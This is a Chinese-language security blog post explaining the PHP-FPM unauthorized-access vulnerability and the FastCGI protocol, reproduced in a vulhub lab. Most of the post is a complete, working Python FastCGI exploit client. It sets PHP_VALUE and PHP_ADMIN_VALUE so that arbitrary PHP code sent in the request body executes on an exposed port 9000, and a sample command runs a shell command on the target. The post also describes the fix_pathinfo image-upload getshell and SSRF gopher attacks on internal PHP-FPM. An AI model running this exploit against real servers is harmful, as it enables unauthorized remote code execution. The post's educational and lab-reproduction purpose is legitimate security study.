

### 0x01 原理简介
最近偶然间读到了p神的这篇文章：
https://www.leavesongs.com/PENETRATION/fastcgi-and-php-fpm.html#nginxiis7

文章对fastcgi协议进行了清晰的阐述，并且提出了关于这个协议的攻击手法，其中还提到了一个漏洞，就是php-fpm未授权访问漏洞。一般nginx以及iis在部署php环境是就会使用到fastcgi，大概工作原理就是Web服务器拿到来自客户端的请求时，会把这个请求按照fastcgi协议的要求重新封装，发送到语言后端，封装的信息中就包括客户端请求的是哪个文件，语言解析器在拿到请求过后就会解析相应的php文件，然后再通过fastcgi协议传给Web服务器，Web服务器再返回给客户端。

那么，PHP-FPM又是什么东西？

FPM其实是一个fastcgi协议解析器，Nginx等服务器中间件将用户请求按照fastcgi的规则打包好通过TCP传给谁？其实就是传给FPM，而fpm默认是监听在9000端口上的，如果这个端口由于配置不得当直接暴露在公网上，攻击者就可以伪造fastcgi请求数据发送到fpm,然后控制fpm后端解析任何php文件，首先这个php文件的存在，在真实的环境中，我们就需要通过猜测爆破的方式来确定服务端存在的php文件了，不过通常在使用源安装php时，会默认安装一些php文件，例如：`/usr/local/lib/php/PEAR.php`等，我们就可以通过构造恶意fastcgi请求去解析这些文件，但是，有人就会有疑问了，我没事解析这些文件干嘛，又不能执行任意代码，只能执行现有的php文件！其实，php.ini里还有一些比较有趣的配置：`auto_prepend_file和auto_append_file`，这两个配置的意思就是在每个php文件的开始和结尾处添加一段代码，如果我们能够控制这两个配置就可以写入任何代码到服务器上的php文件，而且，php-fpm还真就可以控制这两个配置项，这就涉及到php-fpm的环境变量：`PHP_VALUE和PHP_ADMIN_VALUE`，这两个配置项的具体功能，参考p神博客。

```
{
    'GATEWAY_INTERFACE': 'FastCGI/1.0',
    'REQUEST_METHOD': 'GET',
    'SCRIPT_FILENAME': '/var/www/html/index.php',
    'SCRIPT_NAME': '/index.php',
    'QUERY_STRING': '?a=1&b=2',
    'REQUEST_URI': '/index.php?a=1&b=2',
    'DOCUMENT_ROOT': '/var/www/html',
    'SERVER_SOFTWARE': 'php/fcgiclient',
    'REMOTE_ADDR': '127.0.0.1',
    'REMOTE_PORT': '12345',
    'SERVER_ADDR': '127.0.0.1',
    'SERVER_PORT': '80',
    'SERVER_NAME': "localhost",
    'SERVER_PROTOCOL': 'HTTP/1.1'
    'PHP_VALUE': 'auto_prepend_file = php://input',
    'PHP_ADMIN_VALUE': 'allow_url_include = On'
}

```

这样我们只要我们把想要执行的命令放在body中就可以执行了。

### 0x02 复现

直接用vulhub搭建环境：
docker-compose up -d启动环境，会自动去docker-hub下载漏洞环境并启动docker，监听在9000端口上



然后就需要exp了，exp p神也帮我们写好了(本来看完了p神的协议分析想要自己写一下，发现emmmmm能力欠缺），简直是一条龙服务，贴出来：

```php
import socket
import random
import argparse
import sys
from io import BytesIO

# Referrer: https://github.com/wuyunfeng/Python-FastCGI-Client

PY2 = True if sys.version_info.major == 2 else False


def bchr(i):
    if PY2:
        return force_bytes(chr(i))
    else:
        return bytes([i])


def bord(c):
    if isinstance(c, int):
        return c
    else:
        return ord(c)


def force_bytes(s):
    if isinstance(s, bytes):
        return s
    else:
        return s.encode('utf-8', 'strict')


def force_text(s):
    if issubclass(type(s), str):
        return s
    if isinstance(s, bytes):
        s = str(s, 'utf-8', 'strict')
    else:
        s = str(s)
    return s


class FastCGIClient:
    """A Fast-CGI Client for Python"""

    # private
    __FCGI_VERSION = 1

    __FCGI_ROLE_RESPONDER = 1
    __FCGI_ROLE_AUTHORIZER = 2
    __FCGI_ROLE_FILTER = 3

    __FCGI_TYPE_BEGIN = 1
    __FCGI_TYPE_ABORT = 2
    __FCGI_TYPE_END = 3
    __FCGI_TYPE_PARAMS = 4
    __FCGI_TYPE_STDIN = 5
    __FCGI_TYPE_STDOUT = 6
    __FCGI_TYPE_STDERR = 7
    __FCGI_TYPE_DATA = 8
    __FCGI_TYPE_GETVALUES = 9
    __FCGI_TYPE_GETVALUES_RESULT = 10
    __FCGI_TYPE_UNKOWNTYPE = 11

    __FCGI_HEADER_SIZE = 8

    # request state
    FCGI_STATE_SEND = 1
    FCGI_STATE_ERROR = 2
    FCGI_STATE_SUCCESS = 3

    def __init__(self, host, port, timeout, keepalive):
        self.host = host
        self.port = port
        self.timeout = timeout
        if keepalive:
            self.keepalive = 1
        else:
            self.keepalive = 0
        self.sock = None
        self.requests = dict()

    def __connect(self):
        self.sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        self.sock.settimeout(self.timeout)
        self.sock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
        # if self.keepalive:
        #     self.sock.setsockopt(socket.SOL_SOCKET, socket.SOL_KEEPALIVE, 1)
        # else:
        #     self.sock.setsockopt(socket.SOL_SOCKET, socket.SOL_KEEPALIVE, 0)
        try:
            self.sock.connect((self.host, int(self.port)))
        except socket.error as msg:
            self.sock.close()
            self.sock = None
            print(repr(msg))
            return False
        return True

    def __encodeFastCGIRecord(self, fcgi_type, content, requestid):
        length = len(content)
        buf = bchr(FastCGIClient.__FCGI_VERSION) \
              + bchr(fcgi_type) \
              + bchr((requestid >> 8) & 0xFF) \
              + bchr(requestid & 0xFF) \
              + bchr((length >> 8) & 0xFF) \
              + bchr(length & 0xFF) \
              + bchr(0) \
              + bchr(0) \
              + content
        return buf

    def __encodeNameValueParams(self, name, value):
        nLen = len(name)
        vLen = len(value)
        record = b''
        if nLen < 128:
            record += bchr(nLen)
        else:
            record += bchr((nLen >> 24) | 0x80) \
                      + bchr((nLen >> 16) & 0xFF) \
                      + bchr((nLen >> 8) & 0xFF) \
                      + bchr(nLen & 0xFF)
        if vLen < 128:
            record += bchr(vLen)
        else:
            record += bchr((vLen >> 24) | 0x80) \
                      + bchr((vLen >> 16) & 0xFF) \
                      + bchr((vLen >> 8) & 0xFF) \
                      + bchr(vLen & 0xFF)
        return record + name + value

    def __decodeFastCGIHeader(self, stream):
        header = dict()
        header['version'] = bord(stream[0])
        header['type'] = bord(stream[1])
        header['requestId'] = (bord(stream[2]) << 8) + bord(stream[3])
        header['contentLength'] = (bord(stream[4]) << 8) + bord(stream[5])
        header['paddingLength'] = bord(stream[6])
        header['reserved'] = bord(stream[7])
        return header

    def __decodeFastCGIRecord(self, buffer):
        header = buffer.read(int(self.__FCGI_HEADER_SIZE))

        if not header:
            return False
        else:
            record = self.__decodeFastCGIHeader(header)
            record['content'] = b''

            if 'contentLength' in record.keys():
                contentLength = int(record['contentLength'])
                record['content'] += buffer.read(contentLength)
            if 'paddingLength' in record.keys():
                skiped = buffer.read(int(record['paddingLength']))
            return record

    def request(self, nameValuePairs={}, post=''):
        if not self.__connect():
            print('connect failure! please check your fasctcgi-server !!')
            return

        requestId = random.randint(1, (1 << 16) - 1)
        self.requests[requestId] = dict()
        request = b""
        beginFCGIRecordContent = bchr(0) \
                                 + bchr(FastCGIClient.__FCGI_ROLE_RESPONDER) \
                                 + bchr(self.keepalive) \
                                 + bchr(0) * 5
        request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_BEGIN,
                                              beginFCGIRecordContent, requestId)
        paramsRecord = b''
        if nameValuePairs:
            for (name, value) in nameValuePairs.items():
                name = force_bytes(name)
                value = force_bytes(value)
                paramsRecord += self.__encodeNameValueParams(name, value)

        if paramsRecord:
            request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_PARAMS, paramsRecord, requestId)
        request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_PARAMS, b'', requestId)

        if post:
            request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_STDIN, force_bytes(post), requestId)
        request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_STDIN, b'', requestId)

        self.sock.send(request)
        self.requests[requestId]['state'] = FastCGIClient.FCGI_STATE_SEND
        self.requests[requestId]['response'] = b''
        return self.__waitForResponse(requestId)

    def __waitForResponse(self, requestId):
        data = b''
        while True:
            buf = self.sock.recv(512)
            if not len(buf):
                break
            data += buf

        data = BytesIO(data)
        while True:
            response = self.__decodeFastCGIRecord(data)
            if not response:
                break
            if response['type'] == FastCGIClient.__FCGI_TYPE_STDOUT \
                    or response['type'] == FastCGIClient.__FCGI_TYPE_STDERR:
                if response['type'] == FastCGIClient.__FCGI_TYPE_STDERR:
                    self.requests['state'] = FastCGIClient.FCGI_STATE_ERROR
                if requestId == int(response['requestId']):
                    self.requests[requestId]['response'] += response['content']
            if response['type'] == FastCGIClient.FCGI_STATE_SUCCESS:
                self.requests[requestId]
        return self.requests[requestId]['response']

    def __repr__(self):
        return "fastcgi connect host:{} port:{}".format(self.host, self.port)


if __name__ == '__main__':
    parser = argparse.ArgumentParser(description='Php-fpm code execution vulnerability client.')
    parser.add_argument('host', help='Target host, such as 127.0.0.1')
    parser.add_argument('file', help='A php file absolute path, such as /usr/local/lib/php/System.php')
    parser.add_argument('-c', '--code', help='What php code your want to execute', default='<?php phpinfo(); exit; ?>')
    parser.add_argument('-p', '--port', help='FastCGI port', default=9000, type=int)

    args = parser.parse_args()

    client = FastCGIClient(args.host, args.port, 3, 0)
    params = dict()
    documentRoot = "/"
    uri = args.file
    content = args.code
    params = {
        'GATEWAY_INTERFACE': 'FastCGI/1.0',
        'REQUEST_METHOD': 'POST',
        'SCRIPT_FILENAME': documentRoot + uri.lstrip('/'),
        'SCRIPT_NAME': uri,
        'QUERY_STRING': '',
        'REQUEST_URI': uri,
        'DOCUMENT_ROOT': documentRoot,
        'SERVER_SOFTWARE': 'php/fcgiclient',
        'REMOTE_ADDR': '127.0.0.1',
        'REMOTE_PORT': '9985',
        'SERVER_ADDR': '127.0.0.1',
        'SERVER_PORT': '80',
        'SERVER_NAME': "localhost",
        'SERVER_PROTOCOL': 'HTTP/1.1',
        'CONTENT_TYPE': 'application/text',
        'CONTENT_LENGTH': "%d" % len(content),
        'PHP_VALUE': 'auto_prepend_file = php://input',
        'PHP_ADMIN_VALUE': 'allow_url_include = On'
    }
    response = client.request(params, content)
    print(force_text(response))
```
执行命令：

`python /opt/vuls/fpm_client.py 127.0.0.1 /usr/local/lib/php/PEAR.php -c '<?php echo `pwd`;?>'`


### 0x03

其实nginx与iis7的解析漏洞就是因为php-fpm导致的，这个解析漏洞就是访问形如：`http://xxxxx/123.jpg/.php`的url就会把123.jpg按照php来解析，所以，如果一个网站可以上传图片，而且存在这个解析漏洞，那么就可以直接getshell了，危害很大！在php里有一个配置选项：`cgi.fix_pathinfo`,这个配置是为了支持pathinfo,pathinfo是什么呢？
形如：`http://xxx/index.php/test/123`,index.php才是真正的脚本文件，路径后面的都是传给它的参数。

所以在开启了fix_pathinfo后，php-fpm在拿到`123.jpg/.php`这个路径后，发现这个文件不存在，就会去掉最后一个`/`后的内容，然后继续解析，直到某个文件存在，然后解析，这就导致了解析漏洞。

而且这个漏洞是可以通过ssrf打的，结合gopher协议，可以构造任何tcp包，就可以攻击内网脆弱的php-fpm。参考：

https://0verwatch.top/Gopher-fastcgi.html

长亭：https://blog.chaitin.cn/gopher-attack-surfaces/


这位表哥提到的用nc抓包的方式，我之前从来没想过，都是用wireshark抓，但是他这里用nc抓包真的挺方便的。